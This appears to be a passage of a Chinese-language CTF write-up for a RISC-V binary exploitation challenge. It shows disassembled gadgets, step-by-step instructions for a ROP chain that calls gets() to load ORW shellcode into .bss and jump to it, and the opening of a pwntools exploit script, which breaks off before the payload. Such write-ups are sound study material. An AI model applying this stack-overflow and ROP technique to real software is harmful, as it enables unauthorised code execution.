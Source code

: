 ```
                                                                                             undefined FUN_00010284()
        00011798 21 04           c.addi     s0,0x8
        0001179a e3 19 99 fe     bne        s2,s1,LAB_0001178c
                             LAB_0001179e                                    XREF[1]:     00011782(j)  
        0001179e e2 70           c.ldsp     ra,0x38(sp)
        000117a0 42 74           c.ldsp     s0,0x30(sp)
        000117a2 a2 74           c.ldsp     s1,0x28(sp)
        000117a4 02 79           c.ldsp     s2,0x20(sp)
        000117a6 e2 69           c.ldsp     s3,0x18(sp)
        000117a8 42 6a           c.ldsp     s4,0x10(sp)
        000117aa a2 6a           c.ldsp     s5,0x8(sp)
        000117ac 21 61           c.addi16sp sp,0x40
        000117ae 82 80           ret
```

具体利用过程如下:

1. 覆盖栈上的返回地址为  0x0001179e
2. 执行 0x0001179e 到 0x000117ae 之间的代码时通过栈上的值控制以下寄存器
   1. ra = 0x00011772
   2. s0 = gets + 0x478
   3. s2 = gets + 0x470
3. ret 到 0x00011772 继续执行:
   1. a5 = gets
   2. 0x00011782 处判断因为 s0 和 s5 相等, 所以跳到 0x0001179e 处继续执行
4. 执行 0x0001179e 到 0x000117ae 之间的代码时通过栈上的值控制以下寄存器
   1. ra = 0x0001178e
   2. s3 = bss_addr
   3. s1 = 0
   4. s2 = 1
5. ret 到 0x0001178e 继续执行
   1. a0 = s3 = bss_addr
   2. jal a5 # 执行 gets(bss_addr) 可以把orw shellcode读进去.
   3. s1 = s1 + 1  -> s1 = 1 = s2
   4. 0x0001179a 分支指令因为 s1 和 s2 相等跳到 0x0001179e 处继续执行
6. 等价于回到第一步, 只要栈上我们可以控制的内存足够大, 就可以进行任意次 rop
   1. 此时我们可以跳动 bss_addr 执行已经读入的 shellcode.

完整的 exp 如下:

```python
#coding:utf-8
from pwn import *
import pwn_framework as pf
from time import sleep
import sys

global io
ru = lambda p, x        : p.recvuntil(x)
sn = lambda p, x        : p.send(x)
rl = lambda p           : p.recvline()
sl = lambda p, x        : p.sendline(x)
rv = lambda p, x=1024   : p.recv(numb = x)
sa = lambda p, a, b     : p.sendafter(a,b)
sla = lambda p, a, b    : p.sendlineafter(a,b)
rr = lambda p, t        : p.recvrepeat(t)
rd = lambda p, x        : p.recvuntil(x, drop=True)

context(bits = 64, os = 'linux', endian = 'little')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

filename = "./main"
```